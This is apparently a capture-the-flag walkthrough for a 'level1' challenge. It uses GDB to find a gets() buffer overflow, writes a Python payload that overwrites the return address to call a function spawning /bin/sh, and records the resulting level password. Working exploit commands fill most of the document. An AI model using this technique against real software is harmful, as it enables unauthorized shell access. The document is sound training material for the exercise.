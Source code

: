 # Level1 Walkthrough

## Analyzing the Program with GDB

1. **Disassemble the `main` function**:  
   Using the command `disas`, we found that the program uses two functions :
   - run : uses `fwrite` to display a message in the stdout then execute the shell command `/bin/sh` using `system`
   - main : uses `gets` to receive user input which is vulnerable to buffer overflow exploit (if the input is over 80bytes, cf sub $0x50, $esp -> 0x50 is 80 in hexadecimal)

## Running the program

1. **Execute the Program with the Correct Input**:  
   We ran the program with the following command:  
   ```bash
   ./level1
   ```
    The program is waiting for the user to insert an input, then exits properly.

2. **Trying to overflow the RET value**
    we launched the program in gdb with an str containing 80 char as input. we created a small script to generate the string:
    ``` python -c 'print "a" * 80' > /tmp/exploit```
    
    As expected, the program segfaulted in gdb with the command `r < /tmp/exploit` with the following message :
    0x61616161 in ?? () 

    0x61616161 means that we have an overflow of 4 "a", as 61 is the ASCII code for a in hex.

    now we will update our exploit to insert 76 chars and the adress of the run function, to force its execution.
    Adress of run() is : 0x08048444 
    ```python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/exploit```

    We now launch the following command :
    ```cat /tmp/exploit | ./level1```

    We now had a problem because /bin/sh exits after executing all the commands in
    /tmp/exploit as it encounters an EOF so we had a "-" to keep the stdin open so 
    /bin/sh will keep listening to stdin and execute what is send through it.
    ```cat /tmp/exploit - | ./level1```

## Moving to level2

1. **Swith User to level2**:
    Run ```su level1```

2. **Authenticate with the Password**:
    We used the password we found.
    53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77